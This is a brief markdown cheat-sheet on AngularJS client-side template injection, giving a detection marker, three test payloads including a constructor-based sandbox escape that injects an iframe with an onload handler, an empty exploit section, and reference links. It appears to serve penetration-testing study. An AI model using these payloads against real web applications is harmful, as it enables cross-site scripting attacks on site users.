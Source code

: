 # angularjs template injection
## detection
```html
<body ng-app="">
```

## tests
```html
{{1+1}}
{{constructor.constructor('alert(1)')()}}
{{'a'.constructor.fromCharCode=[].join; 'a'.constructor[0]='\u003ciframe onload=alert(/Backdoored/)\u003e';}}

```

## exploit
```html

```

## links
- http://ghostlulz.com/angularjs-client-side-template-injection-xss/
- https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs